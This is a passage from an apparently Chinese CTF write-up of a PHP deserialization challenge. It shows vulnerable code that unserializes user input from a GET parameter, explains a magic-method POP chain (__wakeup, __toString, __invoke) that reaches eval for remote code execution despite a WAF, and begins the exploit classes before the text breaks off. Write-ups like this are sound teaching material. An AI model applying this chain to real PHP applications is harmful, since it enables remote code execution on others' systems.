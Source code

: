 ```php
    {
        $this->$name=$value;
        if ($this->fun = "sixsixsix"){
            strtolower($this->a);
        }
    }
}

if(isset($_GET['ser'])){
    @unserialize($_GET['ser']);
}else{
    highlight_file(__FILE__);
}

//func checkcheck($data){
//  if(preg_match(......)){
//      die(something wrong);
//  }
//}

//function hint(){
//    echo ".......";
//    die();
//}
?>
```

有waf，有hint

先看看hint

```php
echo(serialize(new NISA());
# flag is in /
```

然后构造链子

很明显的一个**eval**

用唯一可控入口 **TianXiWei**的`__wakeup`进入**NISA**的`__wakeup和__call`(<font color='red'>**注意：如果将一个类与一个字符串比较时也能触发__toString，但是赋值为字符串不可以~**</font>)，这里就是`__wakeup`的if比较，然后进入了**Ilovetxw**的`__toString`，再由此进入**NISA**的`__invoke`从而rce

过滤了一些函数，但是⑧影响

```php
<?php
#include "waf.php";
class NISA{
    public $fun;
    public $txw4ever;
}

class TianXiWei{
    public $ext;
    public $x;

}

class Ilovetxw{
    public $huang;
    public $su;

}

class four{
```